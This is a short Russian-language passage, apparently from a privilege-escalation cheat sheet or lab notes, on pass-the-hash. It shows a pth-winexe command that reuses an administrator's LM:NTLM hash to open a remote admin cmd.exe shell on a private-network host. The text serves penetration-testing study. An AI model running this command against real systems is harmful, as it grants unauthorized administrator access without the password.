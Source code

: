 # 🐾 12. Пароли - Использование хеша для аутентификации

Зачем взламывать хеш пароля, если можно аутентифицироваться, используя сам хеш?

Используйте полный хеш администратора с помощью `pth-winexe` для запуска оболочки с правами администратора, не нуждаясь в расшифровке пароля. Помните, что полный хеш включает как LM, так и NTLM хеш, разделенные двоеточием:

```bash
pth-winexe -U 'admin%<hash>' //10.10.1.124 cmd.exe
